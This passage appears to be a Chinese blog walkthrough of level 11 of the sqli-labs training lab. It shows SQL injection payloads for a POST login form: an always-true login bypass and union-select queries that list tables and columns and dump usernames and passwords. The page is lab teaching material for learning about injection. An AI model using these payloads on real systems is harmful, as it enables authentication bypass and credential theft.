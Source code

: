 并且正常情况下无法知道 绝对路径

## Less-11



<img src="https://i-blog.csdnimg.cn/blog_migrate/66a426d989d90c13002637d462672451.png" alt="" style="max-height:267px; box-sizing:content-box;" />


变为了Post类型

我们可以选择在 账号 或者密码进行注入

首先进行尝试万能密码

```cobol
1 or 1=1-- + 整型
 
1' or 1=1 -- + 字符

这个既可以看看能不能进入后台 又可以看看是什么类型的闭合
```

### 万能密码原理

```cobol
select * from user where id='1' or  1=1-- +'
```

最后得到

```vbnet
1' or 1=1 -- + 
```

开始使用联合注入

```cobol
猜字段
1' order by 3-- +

得到两个字段

查看回显
1' union select 1,2-- +
 
得到 1,2都可以回显
 
查看数据库名
1' union select 1,database()-- +

得到security

查看表名
1' union select 1,group_concat(table_name)from information_schema.tables where table_schema=database()-- +
 
得到emails,referers,uagents,users
 
查看字段名
1' union select 1,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'-- +

得到id,username,password

查看值
1' union select 1,group_concat(id,'-------',username,'--------',password)from security.users -- +
```

